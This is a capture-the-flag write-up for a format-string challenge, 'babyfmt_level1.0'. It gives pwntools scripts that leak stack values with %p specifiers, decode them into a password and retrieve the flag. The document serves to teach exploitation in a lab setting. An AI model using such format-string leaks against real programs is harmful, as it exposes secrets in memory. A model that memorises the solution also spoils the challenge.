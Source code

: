 # Format String Exploits 1.0

Running the provided executable file, we are tasked to leak the flag from the stack. Then, we can use `%p %p %p ... %p` to find the offset, which happens to be in `%6$p` and `%7$p`. 

```python
from pwn import *

elf = context.binary = ELF("/challenge/babyfmt_level1.0")

io = process()

print("===== STARTING EXPLOIT =====")

payload = b''
for i in range(30):
    payload += f"%{i}$p".encode()

io.sendline(payload) # found in %6$p and %7$p
```

Finally, we read the hex and process the flag. Final exploit:

```python
from pwn import *

elf = context.binary = ELF("/challenge/babyfmt_level1.0")

io = process()

print("===== STARTING EXPLOIT =====")

io.sendline(b"%6$p %7$p")

io.recvuntil(b'data!\n\n')

password = io.recvline(False).decode()

password = password.split(' ')
password = [p[2:] for p in password]
password = [[chr(int(p[i:i+2], 16)) for i in range(0, len(p), 2)] for p in password]
password = [''.join(reversed(password[i])) for i in range(len(password))]
password = ''.join(password).encode()

io.sendline(password)

io.recvuntil(b'Password!\n')
print(f'Flag: {io.recvline(False)}')
```

![[Format String Exploits/images/Level1.0.png]]